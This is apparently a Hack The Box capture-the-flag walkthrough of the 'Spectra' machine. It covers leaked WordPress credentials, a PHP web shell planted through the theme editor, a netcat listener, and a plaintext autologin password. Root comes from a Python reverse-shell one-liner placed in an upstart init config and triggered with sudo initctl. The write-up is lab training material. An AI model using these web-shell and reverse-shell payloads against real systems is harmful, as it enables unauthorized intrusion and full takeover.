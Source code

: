 ```yaml
---
permalink: /htb/spectra
title: Spectra
---
```


<br>

# Nmap

```bash
$ nmap 10.10.10.229
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-28 03:56 AEST
Nmap scan report for 10.10.10.229
Host is up (0.68s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 79.01 seconds
```

We can visit http://10.10.10.229/

Add `10.10.10.229 spectra.htb` to /etc/hosts

Looking around we can see index of http://spectra.htb/testing/ is available to us.

From there we can go to http://spectra.htb/testing/wp-config.php.save the code is hidden in a php tag but we can view it in the page source (ctrl U).

```php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
```

I tried to login but got this error:

```bash
[~/Documents/HTB/spectra] 
$ mysql -h 10.10.10.229 -u devteam -p -D dev 
Enter password: 
ERROR 1130 (HY000): Host '10.10.16.17' is not allowed to connect to this MySQL server
```

Our password is correct, but our IP is not authorised.

I had luck with wordpress however: http://spectra.htb/main/wp-login.php

`administrator:devteam01`

Go to Appearance > Theme Editor

Change Twenty Twenty to something else, eg Twenty Nineteen

Click some php page, eg 404.php

Replace the code with

```php
<?php system($_REQUEST['connor']); ?>
```

and update file.

I ran into this issue <https://stackoverflow.com/questions/52671255/wordpress-editor-not-updating-files-unable-to-communicate-back-with-site-to-che>

where disabling then re-enabling all plugins fixed it.

Now we can run commands: http://spectra.htb/main/wp-content/themes/twentynineteen/404.php?connor=whoami

Tip: use `cat ... | xclip -selection clipboard` to copy large files to clipboard

We'll use a [php reverse shell](https://github.com/BlackArch/webshells/blob/master/php/php-reverse-shell.php)

```bash
$ nc -lvnp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.229.
Ncat: Connection from 10.10.10.229:35376.
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7302P 16-Core Processor AuthenticAMD GNU/Linux
 16:25:03 up  5:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ cd /home
$ whoami
nginx
$ ls
chronos
katie
nginx
root
user
$ cd katie
$ ls
log
user.txt
$ 
```

With `cat /etc/lsb-release` we see it is using ChromeOS

# Lateral Move

We are currently the nginx user and want to pivot to Katie.

Running linPEAS let's us find katie's password:

```bash
$ cat /etc/autologin/passwd
SummerHereWeCome!!
```

```bash
$ ssh katie@spectra.htb
The authenticity of host 'spectra.htb (10.10.10.229)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'spectra.htb' (RSA) to the list of known hosts.
(katie@spectra.htb) Password: 
katie@spectra ~ $ ls
log  user.txt
katie@spectra ~ $ cat user.txt 
e89d27fe195e9114ffa72ba8913a6130
```

# Privesc

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

We can see she is in the developers group and can access these files:

```bash
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ find / -group developers 2>/dev/null
/etc/init/test6.conf
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
/srv
/srv/nodetest.js
katie@spectra ~ $ 
```

Edit `etc/init/test1.conf`to get a python reverse shell:

```python
start on pwn
task
exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.17",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
katie@spectra ~ $ sudo /sbin/initctl emit pwn
```

```bash
$ nc -lvnp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.229.
Ncat: Connection from 10.10.10.229:35394.
# cat /root/root.txt
d44519713b889d5e1f9e536d0c6df2fc
# 
```
